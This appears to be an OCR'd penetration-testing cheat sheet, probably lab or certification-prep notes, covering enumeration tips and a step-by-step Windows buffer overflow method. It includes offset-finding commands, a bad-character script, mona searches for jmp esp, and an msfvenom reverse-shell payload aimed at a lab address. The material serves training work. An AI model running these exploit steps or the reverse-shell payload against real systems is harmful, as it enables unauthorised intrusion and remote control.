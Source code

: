 ```
- Re-try the thing that seemed like it should have worked but didn't. Start over. You may have made a typo somewhere.
- Look at services found by nmap. Check for nmap scripts to enumerate them further.
- Go through enumeration line-by-line. Compare to a normal system.
- Try more exploits. If the system might be vulnerable to a bunch, try them all.


## Buffer overflow
Find EIP offset
```
msf-pattern_create -l 2700
msf-pattern_offset -q 39694438 -l 2700
```

Make room for shellcode

Identify bad characters
```
badchars = '\x00\x0A\x0D'
shellcode = ''.join([chr(x) if chr(x) not in badchars else 'A' for x in range(0,255)])
```

badchars.py
```
import sys


def getChars(filename):
    result = ""
    with open(filename, 'r') as f:
        lines = f.readlines()
        return ''.join([l.strip().decode('hex')[::-1] for l in lines])

if __name__=="__main__":
    filename = sys.argv[1]
    chars = getChars(filename)
    allchars = ''.join([chr(x) for x in range(0,255)])
    for i in range(0, len(chars)):
        if chars[i] != allchars[i]:
            print("Found difference %02x : %02x" %(ord(allchars[i]), ord(chars[i])))
    print(chars)
```

Find an instruction that will execute our shellcode
```
msf-nasm_shell
nasm > jmp esp
00000000  FFE4              jmp esp
```

Find an occurance of that in the executable
```
!mona modules
!mona find -s "\xff\xe4" -m slmfc.dll
```

Generate shellcode
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.171 LPORT=9000 EXITFUNC=thread -b "\x00\x0A\x0D" -f python
```

### Troubleshooting
Don't forget to put some nops around your shellcode just in case.

### Linux
```